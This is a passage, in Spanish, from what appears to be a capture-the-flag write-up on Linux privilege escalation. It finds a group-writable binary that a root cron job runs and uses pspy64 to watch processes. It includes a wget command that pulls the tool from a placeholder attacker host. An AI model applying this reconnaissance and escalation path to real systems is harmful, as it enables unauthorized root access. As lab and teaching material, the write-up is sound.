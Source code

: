 Info:

```
/opt/AV/periodic-checks/monitor
/opt/AV/periodic-checks/status.log
```

Veremos que esta en la carpeta `/opt` la carpeta `AV` en la cual pertenece a dicho `grupo`, si entramos dentro donde la carpeta `periodic-checks` veremos los siguientes permisos:

```
total 32
drwxrwxr-- 2 root devs  4096 Sep 25 12:14 .
drwxrwxr-- 3 root devs  4096 Jul 22 08:42 ..
-rwxrw---- 1 root devs 16544 Sep 25 12:14 monitor
-rw-rw---- 1 root devs   307 Sep 25 12:14 status.log
```

Vemos que podemos editar y sobreescribir el archivo `monitor`, vamos a probar a estar a la escucha de cualquier proceso con una herramienta llamada`pspy64`.

URL = [Download pspy64 linux](https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64)

```shell
cd /tmp
wget http://<IP_ATTACKER>/pspy64 # Desde nuestra maquina atacante nos descargamos el archivo abrimos un servidor de python3 y nos lo pasamos asi.
./pspy64
```

Info:

```
............................<RESTO DE CODIGO>......................................
2025/09/25 12:19:04 CMD: UID=0     PID=1      | /sbin/init 
2025/09/25 12:20:01 CMD: UID=0     PID=26634  | /usr/sbin/CRON -f -P 
2025/09/25 12:20:01 CMD: UID=0     PID=26633  | /usr/sbin/CRON -f -P 
2025/09/25 12:20:01 CMD: UID=0     PID=26635  | /bin/sh -c /root/clean_monitor.sh 
2025/09/25 12:20:01 CMD: UID=0     PID=26636  | /bin/bash /root/clean_monitor.sh 
2025/09/25 12:20:01 CMD: UID=0     PID=26637  | cp /root/monitor /opt/AV/periodic-checks/monitor 
2025/09/25 12:20:01 CMD: UID=0     PID=26638  | 
2025/09/25 12:20:01 CMD: UID=0     PID=26639  | chown root:devs /opt/AV/periodic-checks/monitor 
2025/09/25 12:20:01 CMD: UID=0     PID=26640  | /bin/sh -c bash -c '/root/initiate_monitoring.sh' >> /opt/AV/periodic-checks/status.log 2>&1 
2025/09/25 12:20:01 CMD: UID=0     PID=26641  | bash -c /root/initiate_monitoring.sh 
2025/09/25 12:20:01 CMD: UID=0     PID=26642  | objcopy --dump-section .text_sig=text_sig_section.bin /opt/AV/periodic-checks/monitor 
2025/09/25 12:20:01 CMD: UID=0     PID=26645  | openssl asn1parse -inform DER -in text_sig_section.bin 
2025/09/25 12:20:01 CMD: UID=0     PID=26644  | /bin/bash /root/initiate_monitoring.sh 
2025/09/25 12:20:01 CMD: UID=0     PID=26648  | 
2025/09/25 12:20:01 CMD: UID=0     PID=26646  | /bin/bash /root/initiate_monitoring.sh 
2025/09/25 12:20:01 CMD: UID=0     PID=26651  | /bin/bash /root/initiate_monitoring.sh 
2025/09/25 12:20:01 CMD: UID=0     PID=26649  | /bin/bash /root/initiate_monitoring.sh 
2025/09/25 12:20:01 CMD: UID=0     PID=26652  | /opt/AV/periodic-checks/monitor 
2025/09/25 12:20:04 CMD: UID=0     PID=26655  | 
^CExiting program... (interrupt)
```
